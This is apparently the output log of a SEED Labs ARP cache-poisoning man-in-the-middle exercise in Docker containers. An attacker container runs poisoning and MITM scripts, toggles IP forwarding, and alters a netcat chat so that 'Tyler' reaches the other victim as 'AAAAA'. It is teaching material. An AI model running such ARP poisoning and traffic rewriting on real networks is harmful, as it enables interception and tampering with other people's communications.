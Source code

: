 #### Output
```
// Attacker M Container (Window 1)

seed@VM> docker cp ARP-MITM-Attack-Name.py M-10.9.0.105:/tmp/
seed@VM> docksh M-10.9.0.105
root@M-10.9.0.105:/# sysctl net.ipv4.ip_forward=1
	net.ipv4.ip_forward = 1
root@M-10.9.0.105:/# python3 /tmp/ARP-Poisoning.py

// Attack M Container (Window 2)
seed@VM> docksh M-10.9.0.105
// After Victim B makes netcat server and Victim A connects to it
root@M-10.9.0.105:/# sysctl net.ipv4.ip_forward=0
	net.ipv4.ip_forward = 0
root@M-10.9.0.105:/# python3 /tmp/ARP-MITM-Attack-Name.py
	.
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.
	...

// Victim B Container
seed@VM> docksh B-10.9.0.6
// Before Attack
root@B-10.9.0.6:/# nc -lp 9090
	asd
	asd
	asd
	asd
	asd
// After Attack
	My name is AAAAA

// Victim A Container
seed@VM> docksh A-10.9.0.5
// Before Attack
root@A-10.9.0.5:/# nc 10.9.0.6 9090
	asd
	asd
	asd
	asd
	asd
// After Attack
	My name is Tyler
```